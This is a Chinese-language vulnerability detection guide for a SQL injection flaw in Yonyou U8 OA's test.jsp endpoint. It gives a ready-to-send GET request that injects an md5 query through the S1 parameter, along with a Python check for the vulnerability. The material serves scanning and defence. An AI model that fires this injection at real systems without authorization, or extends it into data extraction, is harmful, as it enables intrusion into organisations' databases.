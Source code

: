 # 用友 U8 OA SQL注入漏洞（yonyou-u8-oa-sqli）检测说明

## 漏洞简介

用友 U8 OA 存在SQL注入漏洞，攻击者可通过特定参数注入恶意SQL语句，进而获取数据库敏感信息、篡改数据，甚至以管理员权限执行未授权操作。

## 影响范围

- 产品：用友 U8 OA
- CVE编号：无（社区编号 yonyou-u8-oa-sqli）
- 危害等级：Critical

## 漏洞原理

/yyoa/common/js/menu/test.jsp接口的S1参数未做有效过滤，攻击者可注入SQL语句，利用数据库的md5函数回显特征数据。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的GET请求，S1参数注入`(SELECT md5(999999999))`。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，返回包含md5(999999999)的特征数据。
4. 攻击者分析响应内容，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
GET /yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(999999999)) HTTP/1.1
Host: target.com
```

- S1参数注入了`(SELECT md5(999999999))`，用于判断是否存在注入点。

### 预期响应与交互

- 响应体需包含`ef775988943825d2871e1cfa75473ec0`（即md5(999999999)的值），表明SQL语句被执行。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if 'ef775988943825d2871e1cfa75473ec0' in response.text and response.status_code == 200:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带注入payload的GET请求] --> B[接收HTTP响应]
    B --> C{响应体含md5(999999999)?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{状态码为200?}
    D -- 否 --> F
    D -- 是 --> G[判定存在SQL注入漏洞]
```

## 参考链接

- [PeiQi文库-用友U8 OA test.jsp SQL注入漏洞](http://wiki.peiqi.tech/PeiQi_Wiki/OA%E4%BA%A7%E5%93%81%E6%BC%8F%E6%B4%9E/%E7%94%A8%E5%8F%8BOA/%E7%94%A8%E5%8F%8B%20U8%20OA%20test.jsp%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html)
- [Tencent Cloud - 用友OA SQL注入](https://www.tencentcloud.com/document/product/627/38435) 